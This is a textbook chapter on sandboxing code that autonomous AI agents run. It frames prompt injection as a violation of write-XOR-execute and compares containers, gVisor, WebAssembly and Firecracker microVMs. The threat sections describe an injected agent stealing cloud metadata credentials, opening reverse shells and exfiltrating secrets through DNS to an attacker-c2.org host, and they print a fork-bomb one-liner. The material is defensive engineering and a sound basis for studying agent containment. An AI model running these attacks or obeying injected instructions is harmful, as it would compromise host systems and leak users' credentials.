



# Execution Sandboxing {#sec-vol3-virtualization}

::: {layout-narrow}
::: {.column-margin}

\chapterminitoc

:::

::: {.content-visible when-format="pdf"}
\noindent
{fig-alt="Isometric blueprint showing system virtualization and isolation: isolated autonomous execution core, air-gapped virtual network bridge, microVM containment bell jar, sandboxed device emulator, seccomp-BPF syscall filter grate, and ephemeral copy-on-write rootfs."}
:::

::: {.content-visible unless-format="pdf"}
{fig-alt="Isometric blueprint showing system virtualization and isolation: isolated autonomous execution core, air-gapped virtual network bridge, microVM containment bell jar, sandboxed device emulator, seccomp-BPF syscall filter grate, and ephemeral copy-on-write rootfs."}
:::

:::

## Purpose {.unnumbered .unlisted}

::: {.content-visible when-format="pdf"}
\begin{marginfigure}
\mlagentstack{10}{10}{10}{95}{10}{10}
\end{marginfigure}
:::

_How do we isolate untrusted, autonomous code execution from the host operating system and corporate network?_

Autonomous agent loops operate across a precarious systems interface: non-deterministic, untrusted code generated by stochastic neural policies must interact directly with physical compute cores, memory hierarchies, persistent filesystems, and enterprise networks. Classical operating systems security assumes that executing binaries derive from verified human intent compiled into trusted instructions. In agentic execution, this assumption collapses: the executing program is synthesized on the fly by an autoregressive model whose activations are modulated by unverified environmental inputs. To prevent arbitrary code execution, lateral network movement, credential theft, and cluster-wide denial-of-service, systems architects must construct a multi-tiered virtualization substrate. This substrate co-designs hardware-assisted microVMs, copy-on-write ephemeral filesystems, multi-layer network egress mediation, and kernel-level resource envelopes to guarantee that an adversary who achieves total compromise over the agent policy remains strictly confined within a disposable sandbox.

::: {.content-visible when-format="pdf"}
\newpage
:::

::: {.callout-learning-objectives}
- Formulate the threat model of autonomous code execution across Remote Code Execution (RCE), Server-Side Request Forgery (SSRF) against cloud metadata services, and covert data exfiltration channels.
- Quantify the Pareto trade-offs between Linux containers, userspace kernels (gVisor), WebAssembly runtimes, and hardware-assisted microVMs (Firecracker) across cold-boot latency ($T_{\text{boot}}$), memory footprint ($M_{\text{base}}$), and host kernel attack surface.
- Calculate the per-call sandbox boot budget for interactive developer agent trajectories to guarantee that isolation overhead consumes less than 5 percent of total wall-clock execution time.
- Architect an ephemeral storage layer using Copy-on-Write (CoW) overlays (OverlayFS) and memory-snapshot fast-forking to ensure sub-millisecond environment provisioning, host page-cache sharing, and instant state rollback.
- Implement a multi-layer zero-trust network egress perimeter using kernel eBPF packet redirection, transparent TLS Server Name Indication (SNI) inspection proxies, and Shannon entropy DNS tunneling filters.
- Configure host defense envelopes using Linux Control Groups (cgroups v2) and seccomp-BPF filters to prevent PID table exhaustion, memory starvation, and unauthorized host system calls during rogue agent execution loops.
:::

## Architectural Overview: Sandboxing and Protection Rings {#sec-vol3-virtualization-intro}

The tool actuation subsystem developed in @sec-vol3-actuation established the protocols, type systems, and idempotency contracts that allow an autonomous agent to execute shell commands, query databases, and call external APIs. Yet enabling an autonomous system to mutate software environments introduces a profound security crisis. Because transformer models ingest untrusted external data (web pages, user inputs, source code repositories) into the identical token stream as privileged system instructions, they fundamentally violate the classical computer architecture principle of $W \oplus X$ (Write XOR Execute). A neural processor cannot distinguish between an authentic developer directive and an adversarial payload embedded inside a comment or documentation string.

When an agent executing with ambient authority processes an indirect prompt injection, it becomes a Confused Deputy: using its legitimate system credentials to execute an attacker's unauthorized intent. In classical systems engineering, software bugs are isolated through hardware-enforced protection rings, address space layout randomization, and memory virtualization. An agentic operating system requires an identical defensive posture. Because the neural processor core cannot guarantee semantic containment at the token layer, security must be enforced *externally* through hardware-assisted isolation envelopes.

This chapter details the isolation architecture of the Agent Operating System:

1. **Threat Models and Security Boundaries:** Formalizing the $W \oplus X$ violation in autoregressive attention, the Confused Deputy dilemma, and the three defense-in-depth rings (Language Model, Runtime Supervisor, Hardware Hypervisor).
2. **Lightweight MicroVM Architectures:** Evaluating the isolation spectrum from Linux containers (Docker) and userspace kernels (gVisor) to hardware-assisted microVMs (AWS Firecracker), analyzing per-call boot latency budgets ($< 10\text{ ms}$).
3. **Ephemeral Snapshot Forking:** Utilizing Copy-on-Write (CoW) filesystems (OverlayFS) and memory-snapshot fast-forking to provision clean sandboxes in milliseconds and discard corrupted states instantaneously.
4. **Strict Network Egress Filtering:** Neutralizing remote command-and-control (C2) channels and data exfiltration using eBPF packet interception, transparent TLS SNI inspection proxies, and Shannon entropy DNS tunneling defenses.
5. **Kernel-Level Resource Limiting:** Enforcing deterministic CPU, memory, and PID quotas via Linux `cgroups v2` and blocking dangerous host system calls via `seccomp-BPF` filter programs.

## Threat Models for Autonomous Code Execution {#sec-vol3-virtualization-threat-models}

Granting an autonomous agent execution access to external environments without strict hardware-assisted isolation introduces severe vulnerabilities into production systems. When an agent reads unvalidated text into its context window—whether an external pull request, a scraped web page, or an issue ticket—the neural policy ingests the tokens into its active attention layers. If that text contains adversarial instructions, the attention heads bind the adversarial directive to the model's instruction-following representation, overriding the system's original objective. Empowered with an uncontained shell tool, the agent executes unauthorized actions: querying cloud provider instance metadata services, extracting long-term IAM credentials, or establishing outbound reverse shells. This vulnerability does not stem from an infrastructure software defect or an unpatched operating system kernel; it occurs because an untrusted neural policy was granted ambient execution authority on the host system.

### The $W \oplus X$ violation in neural processors

Prompt injection is an intractable vulnerability within neural models not because of imperfect alignment data or insufficient reinforcement learning, but as the direct consequence of a fundamental computer architecture violation.

In classical computer architecture, systems security is anchored in the physical and architectural separation of instructions and data [@anderson2020]. In early stored-program von Neumann architectures, machine code opcodes and application data resided in undifferentiated physical memory. When an unvalidated input overflowed a stack buffer, an attacker could overwrite the saved frame pointer and return address (`RIP`), redirecting CPU execution into the user-supplied data buffer.

To permanently neutralize this vulnerability class, microprocessor architects introduced **$W \oplus X$ (Write XOR Execute)**, enforced in hardware by the Memory Management Unit (MMU) via the AMD No-Execute (`NX`) and Intel Execute-Disable (`XD`) bits in page table descriptors ($\text{Writable} \cap \text{Executable} = \emptyset$). A physical memory page may be writable (permitting state mutations in stack, heap, and `.data` segments) or executable (permitting instruction decoding in `.text` segments), but never both simultaneously. If an adversary injects shellcode into a writable stack page and diverts the instruction pointer to that address, the MMU raises a hardware page-fault interrupt in zero CPU cycles, terminating the process with a segmentation violation (`SIGSEGV`).

Furthermore, hardware architectures establish a strict hierarchy of **Execution Isolation Boundaries**:

- **Ring 3 (User Space):** Unprivileged application code (such as the Python interpreter, language runtimes, and developer scripts) executing with virtual memory translation and restricted CPU instructions.
- **Ring 0 (Supervisor / Guest Kernel):** Operating system kernel code executing privileged CPU instructions (such as page table manipulation and hardware interrupt handling). In standard containers, Ring 0 is shared with the host; in microVMs, guest Ring 0 is partitioned inside hardware virtualization extensions.
- **Ring -1 / VMX Root (Host Hypervisor):** Hardware virtualization silicon (Intel VT-x / AMD-V) operating in VMX root mode. Transitions between guest code (VMX non-root) and hypervisor host code (VMX root) occur strictly through hardware-enforced `VMENTRY` and `VMEXIT` controls governed by Extended Page Tables (EPT).
- **Capability-Based Sandboxing (Software Fault Isolation):** In architectures such as WebAssembly (WASI), hardware privilege rings are replaced by compiler-enforced linear memory bounds and explicit capability handles, where sandboxed bytecode cannot address memory or invoke system interfaces outside its declared import table.

In classical hardware, transitions between privilege levels cannot occur through arbitrary memory jumps; they must traverse atomic, hardware-validated gates (`syscall` instructions or `VMEXIT` traps) that enforce strict parameter validation and boundary isolation.

In transformer-based neural processors [@vaswani2017], this foundational protection boundary collapses entirely. Consider an autoregressive model processing an input sequence of tokens $X = (x_1, x_2, \dots, x_N)$. The context window contains a heterogeneous mixture of semantic sources:

- $X_{\text{sys}}$: Privileged supervisory instructions authored by the system architect (e.g., `"You are an automated refactoring agent. Never execute network commands or access credentials."`).
- $X_{\text{user}}$: Direct task instructions from the human operator (e.g., `"Diagnose the compilation failure in pull request #402."`).
- $X_{\text{env}}$: Untrusted environmental data retrieved via tool execution (e.g., lines from a git diff, README files, HTTP response bodies, database records, or compiler error streams).

In a classical computer, supervisory logic $X_{\text{sys}}$ would reside in an immutable, execute-only code segment (`.text`), while untrusted external text $X_{\text{env}}$ would reside in a non-executable data segment (`.data`). In a transformer, however, all tokens are projected into an identical continuous vector embedding space $\mathbb{R}^{d_{\text{model}}}$. When scaled dot-product attention is computed across the context sequence ($\text{Attention}(Q, K, V) = \text{softmax}((Q K^\top)/\sqrt{d_k}) V$), every token position $i$ attends to every token position $j$ through continuous inner products ($A_{i,j} = \exp(q_i^\top k_j / \sqrt{d_k}) / \sum_{m=1}^S \exp(q_i^\top k_m / \sqrt{d_k})$).

Because attention weights are continuous scalar projections, an untrusted token $x_{\text{adv}} \in X_{\text{env}}$ retrieved from a malicious repository README participates in the identical matrix multiplications as the supervisory token $x_{\text{sys}} \in X_{\text{sys}}$. The adversary's token directly modulates the hidden activations that determine the model's next-token emission. If the dot-product similarity $(q_i^\top k_{\text{adv}}) / \sqrt{d_k}$ dominates the attention row, the adversary's instructions override supervisory intent.

Unlike a physical Memory Management Unit that evaluates $\text{Instruction Fetch Valid} \iff \text{page.flags} \ \& \ \text{PROT\_EXEC}$, there is no hardware bitmask, no capability descriptor, and no MMU trap in dense linear algebra to mark an embedding dimension as "non-executable." Because instructions and data share a unified, unsegmented attention space, **prompt injection is the direct semantic equivalent of a stack buffer overflow on an architecture that lacks $W \oplus X$** [@greshake2023not].

### The confused deputy and ambient authority

This architectural vulnerability manifests directly as the **Confused Deputy Problem**, first formalized in operating systems theory by Norm Hardy [@hardy1988confused]. A confused deputy is an authorized, privileged server that is manipulated by an unprivileged client into misusing its authority.

In an agentic deployment, the autonomous agent holds ambient authority within its execution environment: developer SSH keys in `~/.ssh`, cloud provider credentials in `~/.aws/credentials`, active environment variables (`GITHUB_TOKEN`, `OPENAI_API_KEY`), write permissions to shared filesystems, and unconstrained TCP socket access. When the agent ingests untrusted text from an external environment $\mathcal{E}$, the unprivileged data co-opts the policy. Because the host environment grants ambient credentials to the agent process, the agent acts as the confused deputy: it invokes privileged effectors (such as `bash_exec`), using its valid credentials against the interests of its principal.

This directly invokes Butler Lampson's **Confinement Problem** [@lampson1973note]: how can a host execute a program (or agent) whose intent is untrusted without allowing that program to leak confidential data or corrupt persistent state?

### Attack surface taxonomy

Autonomous code execution opens five distinct attack surfaces that threaten the host operating system, co-tenant workloads, and internal network perimeters:

1. **Remote Code Execution (RCE) and Host Kernel Escapes:** The agent synthesizes and executes arbitrary binary code or shell scripts. If executed directly on the host or inside a shared-kernel container, an attacker can exploit kernel privilege escalation vulnerabilities (for example, race conditions in `io_uring` or memory corruptions in netfilter) to escape into host Ring 0, gaining full physical machine control.
2. **Server-Side Request Forgery (SSRF) and Cloud Metadata Harvesting:** When deployed on public cloud infrastructure (AWS, Google Cloud, Microsoft Azure), host instances possess access to a link-local Instance Metadata Service (IMDS) at IP address `169.254.169.254`. An untrusted script can query IMDS endpoints to steal temporary STS credentials, IAM role tokens, and instance bootstrap user-data scripts containing private secrets.
3. **Lateral Network Movement:** Autonomous agents require network connectivity to resolve package dependencies (`pip`, `npm`, `cargo`). If connected to the corporate VPC or internal cluster network, a compromised agent can port-scan internal subnets, access unauthenticated internal caches (Redis, Memcached), query Kubernetes API servers (`https://10.96.0.1:443`), and compromise adjacent microservices.
4. **Covert Data Exfiltration:** Attackers design payloads that extract sensitive intellectual property, environment variables, and proprietary code. If direct HTTP POST requests to external IP addresses are blocked, attackers use covert channels: encoding stolen secrets into subdomain labels of recursive DNS queries (`<base64_secret>.attacker-c2.org`), hiding data in HTTP headers, or exploiting URL preview fetchers in third-party SaaS integrations.
5. **Algorithmic Resource Starvation (Denial of Service):** An untrusted script can execute fork bombs (`:(){ :|:& };:`), allocate unbounded memory arrays to trigger Linux Out-of-Memory (OOM) killer thrashing, or saturate disk IOPS with multi-gigabyte random writes, degrading or crashing the host node.

@Tbl-vol3-threat-matrix formalizes this attack surface taxonomy, detailing root vulnerability mechanisms, classical operating system protections, and required hypervisor-level mitigations.

| Attack Surface Class          | Root Vulnerability Mechanism                                                          | Classical OS Protection                               | Agentic Execution Manifestation                                                   | Required Hypervisor Mitigation                                                   |
|:------------------------------|:--------------------------------------------------------------------------------------|:------------------------------------------------------|:----------------------------------------------------------------------------------|:---------------------------------------------------------------------------------|
| **Host Kernel Escape (RCE)**  | Shared host kernel exposes $>450$ system calls; local privilege escalation (LPE) CVEs | Discretionary Access Control (DAC), POSIX permissions | Injected shell payload exploits kernel race condition (e.g., `io_uring`)          | Hardware microVM boundary (KVM); separate guest kernel; seccomp-BPF jailer       |
| **Cloud Metadata Harvesting** | Ambient HTTP access to link-local subnet `169.254.169.254` (IMDS)                     | Network perimeter firewalls                           | Agent executes `curl` against IMDSv1 to extract temporary IAM STS tokens          | Line-rate eBPF drop on `169.254.169.254`; mandatory IMDSv2 with hop limit 1      |
| **Lateral VPC Movement**      | Flat internal cluster networking (Kubernetes pod overlay)                             | Security groups, VPC routing tables                   | Injected script port-scans `10.0.0.0/8`, accessing unauthenticated internal Redis | Dedicated network namespace; virtual TAP interface; default-deny egress routing  |
| **Covert DNS Exfiltration**   | Unrestricted UDP/TCP port 53 outbound queries to recursive resolvers                  | Egress firewall blocking HTTP/S ports                 | Secret base64-encoded into DNS labels (`secret.attacker-c2.org`)                  | Shannon entropy label filtering; label length caps; internal DNS sinkholing      |
| **Resource Exhaustion (DoS)** | Unbounded process spawning, memory allocation, and disk write loops                   | OS process scheduling, swap space                     | Fork bomb saturates host PID table; RAM exhaustion triggers host kernel panic     | Linux `cgroups v2` (`pids.max`, `memory.max`, `cpu.max`); ephemeral tmpfs quotas |

: **Threat Matrix for Autonomous Agent Code Execution**: Vulnerability classes, classical failure modes, agentic attack vectors, and mandatory hypervisor-level systems mitigations. {#tbl-vol3-threat-matrix tbl-colwidths="[18,22,20,20,20]"}

### The three defense-in-depth rings

To eliminate reliance on fragile model-level guardrails, systems engineers structure runtime sandboxing around **Three Defense-in-Depth Rings** (@fig-vol3-virtualization-defense-rings):

1. **Ring 1: API Capability Leases and Schema Gating (Protocol Level):** Enforcing strongly typed tool schemas, validating parameters against rigid JSON Schema invariants, and requiring explicit human-in-the-loop cryptographic escrow before executing high-consequence mutations.
2. **Ring 2: Hypervisor and Ephemeral Storage Isolation (OS Level):** Confining untrusted code execution within hardware-assisted microVMs equipped with independent guest kernels, backed by disposable Copy-on-Write (CoW) filesystem overlays that guarantee instantaneous, zero-residual state teardown.
3. **Ring 3: Zero-Trust Network Egress Mediation (Perimeter Level):** Routing all outbound network frames through transparent TLS SNI proxies, eBPF packet filters, payload credential regex scanners, and Shannon entropy DNS mitigators.

Under this defense-in-depth architecture, security is modeled across three disjoint failure domains:

1. **Injection Domain ($P(\text{inject})$):** An adversarial machine learning challenge operating within the continuous embedding space of neural weights.
2. **Containment Domain ($P(\text{escape} \mid \text{inject})$):** An operating systems challenge operating in the Linux KVM hypervisor and hardware CPU silicon (VMX/EPT). An adversary cannot escape hardware virtualization using prompt tokens.
3. **Exfiltration Domain ($P(\text{exfil} \mid \text{escape})$):** A networking challenge operating in kernel eBPF packet filters and transparent TLS SNI proxies. Even if an injected payload compromises the guest kernel, outbound raw IP connections and cloud metadata calls are dropped at line rate by the host network stack.

Because these enforcement domains share zero common software mechanisms or failure modes, an adversary who achieves prompt injection ($P(\text{inject}) \approx 1.0$) using automated gradient-based suffix optimization [@zou2023] is still confronted with the hardware virtualization barrier. Escaping the microVM requires an unpatched hypervisor zero-day, and even in that event, outbound data exfiltration is blocked by the independent network perimeter filter.

By shifting security enforcement from probabilistic neural weights into deterministic operating systems software, the host infrastructure remains protected even when the agent policy is fully compromised.

::: {#fig-vol3-virtualization-defense-rings fig-env="figure" fig-pos="htb" fig-cap="**The Three Defense-in-Depth Rings for Autonomous Agent Execution**: Complete mediation model dividing sandbox security into Protocol-level API schema and capability leases, OS-level microVM hardware containment and ephemeral CoW overlays, and Perimeter-level zero-trust egress mediation." fig-alt="Architectural diagram illustrating the three defense-in-depth rings for autonomous agent sandboxes: Ring 1 API capability leases, Ring 2 microVM virtualization and ephemeral overlays, and Ring 3 zero-trust network egress perimeter."}
{width="100%"}
:::

::: {#chk-vol3-09-threat-model-isolation .callout-checkpoint title="Threat models and defense-in-depth isolation"}

Before exploring microVMs, containers, and WebAssembly runtimes, verify your understanding of sandboxing invariants:

- [ ] **$W \oplus X$ violation in LLMs**: explain why prompt injection is functionally equivalent to an executable buffer overflow on a computer architecture that lacks memory protection.
- [ ] **Ambient authority vs. capabilities**: describe how granting ambient shell authority to an agent enables Confused Deputy exploits during repository triage.
- [ ] **Defense-in-depth disjoint domains**: explain why hypervisor isolation and network perimeter filtering remain effective even when prompt injection succeeds with probability $1.0$.

:::

The failure of model-level guardrails exposes a hard architectural reality: because autoregressive self-attention computes an undifferentiated inner product across instructions and environmental data, software prompt boundaries cannot enforce memory safety. Defense must therefore retreat to the physical silicon. To protect host memory, CPU registers, and adjacent tenant workloads from uncontained execution, the runtime must intercept untrusted machine instructions at the hardware privilege boundary. This requirement forces a fundamental architectural trade-off among shared-kernel container namespaces, userspace kernel emulation, and hardware-assisted microVMs.

## Lightweight MicroVM Architectures {#sec-vol3-virtualization-microvms}

When an agent executes an arbitrary shell script, Python script, or C++ compilation pipeline, the runtime must instantiate an execution environment that satisfies four competing systems requirements:

1. **Cold-Boot Latency ($T_{\text{boot}}$):** The wall-clock time required to provision a pristine, fully operational sandbox from scratch.
2. **Memory Footprint ($M_{\text{base}}$):** The baseline physical memory overhead consumed per sandbox instance, dictating host tenant packing density.
3. **Host Kernel Attack Surface:** The number and architectural complexity of host system calls exposed directly to the untrusted executing binary.
4. **POSIX Fidelity:** The degree to which standard operating system facilities (compilers, debuggers, multi-threading, Unix sockets, signal delivery) function transparently without modification.

### The isolation spectrum

Operating systems provide multiple execution isolation primitives across this spectrum, ranging from shared-kernel containers to hardware-assisted virtual machines (@fig-vol3-virtualization-isolation-spectrum).

::: {#fig-vol3-virtualization-isolation-spectrum fig-env="figure" fig-pos="htb" fig-cap="**The Operating Systems Isolation Spectrum**: Comparing Linux containers, userspace kernels (gVisor), WebAssembly runtimes, hardware-assisted microVMs (Firecracker), and legacy virtual machines (QEMU) across cold-boot latency, memory footprint, host kernel attack surface, and containment boundary strength. MicroVMs provide the optimal balance for autonomous agent runtimes by combining sub-50 ms boot times and minimal memory footprints with hardware hypervisor containment." fig-alt="Diagram comparing five isolation technologies: Linux containers, gVisor userspace kernels, WebAssembly runtimes, hardware microVMs, and legacy virtual machines across cold-boot latency, memory footprint, host kernel attack surface, and isolation strength."}
{width="100%"}
:::

**Linux containers (Docker, Podman, runc):** Containers do not virtualize hardware; they are standard operating system processes running directly on the monolithic host Linux kernel, partitioned via Linux Namespaces (`CLONE_NEWPID`, `CLONE_NEWNET`, `CLONE_NEWNS`, `CLONE_NEWIPC`, `CLONE_NEWUTS`) and constrained by Control Groups (`cgroups v2`).

The vulnerability is structural: the containerized process possesses direct visibility into the host kernel's system call interface, exposing over 450 system calls. A single unpatched local privilege escalation vulnerability in the host kernel—such as Dirty COW (CVE-2016-5195), Dirty Pipe (CVE-2022-0847), or recent `io_uring` privilege escalations (CVE-2024-1086)—allows an attacker executing code inside the container to overwrite kernel memory and seize physical root control of the host.

**Verdict:** Standard Linux containers represent an **unacceptable security risk** for executing untrusted, agent-generated code in multi-tenant environments.

**Userspace kernel emulation (gVisor):** Google's gVisor addresses the shared-kernel vulnerability by running a userspace kernel, termed the **Sentry**, between the untrusted application and the host operating system. Written in memory-safe Go, the Sentry intercepts application system calls (via `ptrace` or KVM virtualization hooks) and implements Linux kernel semantics entirely in userspace, reducing the host kernel attack surface to approximately 50 safe system calls.

The trade-off is steady-state I/O performance. Emulating complex Linux virtual file system (VFS) operations, memory management, and signal dispatching in userspace introduces significant context-switching overhead. On software engineering workloads that perform thousands of small file operations—such as `git checkout`, `npm install`, or C++ compilation—gVisor imposes a **15 to 35 percent performance degradation**.

**WebAssembly (Wasm / WASI):** WebAssembly provides mathematical software fault isolation (SFI) [@haas2017bringing]. Modules execute within a bounds-checked linear memory array, interacting with the outside world strictly through capability-based imports defined by the WebAssembly System Interface (WASI). Wasm achieves sub-millisecond cold-start times ($< 5\text{ ms}$) and tiny memory footprints ($1\text{--}4\text{ MB}$).

The limitation is POSIX compatibility. Wasm requires software to be specifically compiled to the `wasm32-wasi` target. An autonomous agent cannot execute arbitrary bash scripts, run pre-compiled native binaries, debug processes with `gdb` or `strace`, or execute Python packages that rely on uncompiled C-extensions inside a standard Wasm runtime.

**Hardware-assisted microVMs (AWS Firecracker and E2B):** MicroVMs combine the isolation strength of hardware-assisted virtualization with the agility of lightweight containers. By eliminating legacy PC hardware emulation and running atop the Linux Kernel-based Virtual Machine (KVM), microVMs boot an independent, stripped-down guest Linux kernel with sub-50 ms cold-boot times and minimal baseline memory footprints ($\sim 5\text{ MB}$) [@agache2020firecracker]. In production agent infrastructure, frameworks like **E2B** [@e2b2024] and Modal operationalize Firecracker at scale, managing pools of warm microVMs, Copy-on-Write memory templates, and isolated network namespaces tailored specifically for agentic code execution and evaluation.

::: {.callout-tip title="Systems insight: The tax of nested virtualization"}
In cloud deployments, running Firecracker inside standard virtualized cloud instances (e.g., standard AWS EC2 virtual machines) requires **nested virtualization** (KVM on top of Xen or Nitro). Nested virtualization introduces an extra layer of Second-Level Address Translation (EPT) walk latency and doubles VM-entry/VM-exit overheads on privileged instructions. For latency-critical agent workloads requiring sub-20 ms sandbox instantiation, production infrastructures typically deploy Firecracker directly onto bare-metal cloud instances (`.metal` instance families), bypassing nested hypervisor translation entirely.
:::

@Tbl-vol3-isolation-comparison quantifies the operational characteristics of these isolation primitives.

| Isolation Primitive           | Boundary Mechanism                     | Cold Boot ($T_{\text{boot}}$) | Memory Base ($M_{\text{base}}$) | Host Syscall Surface                    | Steady-State I/O Penalty               | POSIX Fidelity                    | Containment Strength             |
|:------------------------------|:---------------------------------------|:------------------------------|:--------------------------------|:----------------------------------------|:---------------------------------------|:----------------------------------|:---------------------------------|
| **Linux Containers (Docker)** | Namespaces & cgroups v2                | $150\text{--}400\text{ ms}$   | $15\text{--}35\text{ MB}$       | Monolithic kernel ($>450$ syscalls)     | $\sim 0\%$ (native kernel)             | Full POSIX                        | Low (shared kernel escape prone) |
| **Userspace Kernel (gVisor)** | Sentry userspace Go kernel             | $120\text{--}250\text{ ms}$   | $25\text{--}45\text{ MB}$       | Trapped in Go ($\sim 50$ host syscalls) | $15\%\text{--}35\%$ (VFS trap penalty) | High (minor syscall quirks)       | Medium-High                      |
| **WebAssembly (WASI)**        | Memory-safe linear bytecode            | $1\text{--}5\text{ ms}$       | $1\text{--}4\text{ MB}$         | Zero direct host syscalls               | $0\%$ (bounds-checked JIT)             | Non-POSIX (compiled modules only) | High (linear memory bounded)     |
| **MicroVM (Firecracker/KVM)** | Hardware VT-x / EPT + minimal VirtIO   | $5\text{--}45\text{ ms}$      | $\sim 5\text{ MB}$              | Minimal KVM ioctls ($<40$ syscalls)     | $<3\%$ (native guest kernel)           | Full POSIX (Linux kernel)         | **Maximum (Hardware Enforced)**  |
| **Legacy VM (QEMU/KVM)**      | Full PC motherboard & device emulation | $15\text{--}45\text{ s}$      | $0.5\text{--}2\text{ GB}$       | Full hypervisor + PC emulation          | $<5\%$ (paravirtualized)               | Full POSIX                        | High (large TCB in legacy QEMU)  |

: **Operating Systems Isolation Spectrum for Autonomous Agent Execution**: Quantitative comparison of isolation mechanisms across startup latency, memory footprint, attack surface, and containment strength. {#tbl-vol3-isolation-comparison tbl-colwidths="[14,14,11,12,14,11,12,12]"}

### The per-call boot budget

In an autonomous agent trajectory, tool invocations occur iteratively across dozens of sequential steps. Per-invocation sandboxing is mandatory because if an agent executes a 40-step trajectory inside a single persistent, mutable container, an indirect prompt injection encountered at step 3 permanently compromises the environment for all subsequent 37 steps. Ephemeral per-turn sandboxes guarantee that each step starts from a cryptographically clean slate.

However, ephemeral isolation introduces a systems tax. Let $N$ represent the number of tool execution steps in a trajectory, and let $t_{\text{prod}}$ represent the productive execution duration of a single tool invocation (for example, executing a test script or compiling a binary). Total trajectory wall-clock time is $T_{\text{trajectory}} = N \cdot (T_{\text{boot}} + t_{\text{prod}})$. If the systems service level agreement (SLA) specifies that isolation overhead must not exceed a fraction $s$ (e.g., $s = 0.05$, or 5 percent) of total wall-clock execution time, the overhead ratio $\frac{N \cdot T_{\text{boot}}}{N \cdot (T_{\text{boot}} + t_{\text{prod}})} \le s$ dictates the per-call sandbox boot budget:

$$T_{\text{boot}} \le \frac{s}{1 - s} \cdot t_{\text{prod}}$$

We evaluate this bound across two representative production regimes:

- **Interactive Developer Assistant ($t_{\text{prod}} = 3.5\text{ s}$, $s = 0.05$):** $T_{\text{boot}} \le \frac{0.05}{0.95} \times 3.5\text{ s} \approx 184.2\text{ ms}$. To remain within human interactive perception thresholds ($\le 200\text{ ms}$), the sandbox must boot in under $184\text{ ms}$.
- **High-Throughput Synthetic Generation / Deliberation ($t_{\text{prod}} = 1.0\text{ s}$, $s = 0.05$):** $T_{\text{boot}} \le \frac{0.05}{0.95} \times 1.0\text{ s} \approx 52.6\text{ ms}$. In autonomous training flywheels generating millions of rollouts, the per-call boot budget drops to a razor-thin $53\text{ ms}$.

As evaluated in @tbl-vol3-boot-budget-feasibility, provisioning latency dictates whether an isolation technology is operationally viable. Legacy virtual machines (QEMU, $T_{\text{boot}} \approx 30\text{ s}$) exceed the budget by over two orders of magnitude, spending 89 to 97 percent of the entire trajectory wall-clock time waiting on machine boots—in a 40-step trajectory, the system wastes 20 full minutes booting VMs for barely 2.3 minutes of actual computation. Standard Docker containers ($T_{\text{boot}} \approx 250\text{ ms}$) violate the tight 53 ms budget of high-throughput pipelines. Firecracker microVMs ($T_{\text{boot}} \le 25\text{ ms}$) comfortably satisfy both regimes with a $2\times$ to $7\times$ engineering safety margin.

